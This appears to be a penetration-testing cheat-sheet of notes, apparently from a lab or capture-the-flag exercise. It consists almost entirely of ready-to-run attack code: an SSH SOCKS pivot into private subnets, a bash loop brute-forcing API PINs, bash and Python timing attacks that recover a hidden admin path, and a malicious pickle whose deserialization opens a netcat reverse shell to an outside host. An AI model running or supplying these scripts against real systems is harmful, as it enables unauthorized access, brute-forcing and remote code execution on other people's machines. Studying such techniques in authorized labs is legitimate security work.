 # Pivoting

## If you've owned a box, how can you pivot to other machines in private subnets?
SOCKS Proxy
```
ssh weytechuser@files.wey-tech.com -D 9050 -f -N
```
Use proxychains to force any command we run locally to route all traffic through our SOCKS tunnel so that we can hit targets

Configure Firefox to run through the proxy. A good addon is SmartProxy and you can configure the SOCKS4 Protocol proxy using the localhost port set above.

## What's a way to brute-force attempt pins on an API?
```
$ ssh weytechuser@files.wey-tech.com 'for i in $(seq 1000 9999); do RESULT=$(curl http://10.4.4.80/api/confirm/abcd/$i 2>/dev/null); if [[ $RESULT == *"true"* ]]; then echo -e "\n$RESULT\nPincode: $i\n"; break; fi; done'
```

## Bash script for timeout attack of a 16 byte random path
```
COOKIE="Cookie: session=<PLACE YOUR COOKIE HERE>"
ADMINID=""
for num in $(seq 0 15 | tac); do
  ZZZs=$(eval "printf 'Z%.0s' {0..$num}")
  PADDING=${ZZZs::-1}
  for char in $(echo "abcdefghijklmnopqrstuvwxyz0123456789" | fold -w1); do  
    RES=$(timeout "$(($num + 1))" curl -s "http://10.4.4.80/api/list/files/1/$ADMINID$char$PADDING" -H "$COOKIE")
    if [ -n "$RES" ]; then
      ADMINID="$ADMINID$char"
      echo "Found another Character: $ADMINID"
      break
    fi
  done
done
```

## Similar Python url fuzz
```
import string
import requests
import sys
import json
import threading
import Queue
import time


character_set = 'abcdefghijklmnopqrstuvwxyz0123456789'

def queue_get_all(q, max_items):
    items = []
    for numOfItemsRetrieved in range(0, max_items):
        try:
            if numOfItemsRetrieved == max_items:
                break
            items.append(q.get_nowait())
        except:
            break
    return items

def times_out(q, alpha, session, ip_address, characters, uid,  timeout):
    start = time.time()
    res = json.loads(session.get(  'http://{}:8080/api/list/files/{}/{}'.format(ip_address, uid, characters)).text)
    end = time.time()
    q.put( [alpha, bool(end - start < timeout)] )


def iterate(character_set, length, ip_address, uid, username, password ):
    session = requests.Session()
    results = session.post('http://{}:8080/api/login'.format(ip_address),data={'username': username, 'password': password})
    final_character = ''
    for num in range(length):
        padding_back = '_' * ((length - num)-1)
        q = Queue.Queue()
        for alpha in character_set:
            threading.Thread(target=times_out, args=[q, alpha, session, ip_address, (final_character + alpha + padding_back), uid, (length - num) ]).start()
        time.sleep((length - num) + 1)
        results = queue_get_all(q, len(character_set))
        final_character += [x[0] for x in results if x[1]][0]
        print(final_character)
    print('The user directory with UID {} is {}'.format(uid, final_character))



if __name__ == "__main__":
    #       Character_Set,  Length to send, ip address,    user id number,  username,           password
    try:
        iterate(character_set,  16,              sys.argv[1],   sys.argv[2],     sys.argv[3],        sys.argv[4])
    except:
        print('Ex - python bruteforce_directory.py 127.0.0.1 1 admin password')
```

## Bad pickle
```
#!/usr/bin/env python
import pickle
import os

class payload(object):
  def __reduce__(self):
    comm = "nc some_ip_address some_port -e /bin/bash"
    return (os.system, (comm,))

payload = pickle.dumps( payload() )
test = open('evil.pickle','w')
test.write(payload)
test.close()
```
